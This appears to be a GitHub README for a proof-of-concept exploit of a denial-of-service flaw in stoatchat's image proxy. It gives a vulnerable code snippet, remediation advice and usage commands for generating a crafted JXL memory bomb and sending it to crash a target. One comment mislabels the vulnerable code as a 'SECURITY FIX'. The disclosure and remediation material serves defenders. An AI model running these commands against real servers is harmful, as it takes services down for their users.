

# CVE-2026-133234 -- stoatchat < 0.16.5 JXL Image Memory Exhaustion DoS

<div align="center">

[](https://github.com/LLCForge/CVE-2026-133234)
[](https://nvd.nist.gov/vuln/detail/CVE-2026-133234)
[](https://cwe.mitre.org/data/definitions/400.html)
[](poc.py)
[](https://github.com/LLCForge)

</div>

---

## Metadata

| Field | Value |
|---|---|
| **CVE ID** | CVE-2026-133234 |
| **Vendor** | stoatchat |
| **Affected Version** | stoatchat < 0.16.5 |
| **Fixed Version** | 0.16.5+ |
| **CVSS 3.1** | 7.5 High |
| **CWE** | CWE-400 -- Uncontrolled Resource Consumption |
| **Attack Vector** | Network |
| **Auth Required** | None (unauthenticated via proxy endpoint) |
| **Impact** | Server memory exhaustion / process crash (DoS) |

---

## Description

stoatchat is a lightweight chat proxy application. Versions before 0.16.5 include an image proxy endpoint (`POST /proxy`) that accepts and processes image URLs. When a JPEG XL (JXL) image with a crafted header declaring an extremely large dimension (e.g., 2^30 x 2^30 pixels) is submitted, the libjxl decoder allocates memory proportional to the declared dimensions without validating against available memory, causing the process to exhaust RAM and crash.

---

## Vulnerable Code

```python
# proxy.py (stoatchat < 0.16.5)
@app.route("/proxy", methods=["POST"])
def proxy_image():
    url = request.json.get("url")
    resp = requests.get(url, timeout=30)
    # SECURITY FIX: CWE-400 -- no dimension validation before decode
    img = decode_jxl(resp.content)   # libjxl OOM on crafted header
    return send_file(img, mimetype="image/png")
```

---

## Attack Flow



---

## PoC Usage

```bash
pip install -r requirements.txt
python poc.py -u http://stoatchat.example.com --generate-payload --jxl-output bomb.jxl
python poc.py -u http://stoatchat.example.com --send --payload-url http://your-server/bomb.jxl
python poc.py -u http://stoatchat.example.com --check-only
```

### Flags

| Flag | Description |
|---|---|
| `-u / --url` | stoatchat instance URL |
| `--generate-payload` | Generate crafted JXL memory bomb |
| `--payload-url` | URL of JXL bomb to deliver via proxy |
| `--send` | Send payload to trigger DoS |
| `--check-only` | Verify proxy endpoint exists |
| `--jxl-output` | Save crafted JXL to file |
| `--proxy` | Upstream proxy |
| `--insecure` | Skip TLS verification |
| `-v / --verbose` | Verbose output |

---

## Remediation

| Action | Detail |
|---|---|
| **Update** | Upgrade stoatchat to 0.16.5+ |
| **Validate** | Check JXL header dimensions before decoding (max 16384x16384) |
| **Resource limit** | Use `ulimit -v` or cgroup memory limits on the proxy process |
| **Auth** | Restrict `/proxy` endpoint to authenticated users |

---

## Disclaimer

For educational and authorized security research only.

**Author:** LLCForge | **License:** MIT
